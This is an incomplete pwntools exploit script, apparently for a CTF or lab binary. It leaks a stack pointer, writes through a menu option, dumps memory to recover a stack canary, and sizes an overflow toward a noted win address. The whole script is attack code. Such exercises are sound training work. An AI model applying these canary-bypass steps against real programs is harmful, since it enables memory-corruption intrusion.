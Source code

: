 ```
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

if args.REMOTE:
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Lets try a real stack canary, like the ones GCC uses
# To make things easier, here's a stack pointer ... (random adress)
# Winning address at 0x080486c6
#possible offset 0x15, 692, 105



p.recvuntil(b'pointer ',drop=True)
stk_ptr = p.recvline()
stk_ptr = int(stk_ptr, 16) + 21
log.info(f"The stack pointer is {stk_ptr}")
stk_ptr = p32(stk_ptr)


# a) input data
# b) dump memory
# c) print memory map
# d) quit

line = p.recvuntil(b'quit', drop=True)
log.info(f"{line}")
p.sendline(b'a')
log.info("You choose a")
line = p.recvuntil(b'len: ', drop=True)
log.info(f"{line}")
p.sendline(b'5')
log.info("Sent 5")
p.sendline(stk_ptr)
log.info("Sent given random adjusted stack pointer")
# Return to menu
line = p.recvuntil(b'quit', drop=True)
log.info(f"{line}")
p.sendline(b'b')
log.info("You chose b")
#line = p.recvline()
#log.info(f"{line}")
line = p.recvline()
canary = p.recvline()
log.info(f"Canary: {canary}")
canary = canary[22:26]
log.info(f"Canary: {canary}")
addr = 8
size = 96 + 4 + addr + 4 + 1
size = str(size)
log.info(f"Addr: {addr}")
line = p.recvuntil(b'quit', drop=True)
log.info(f"line: {line}")
p.sendline("a")
```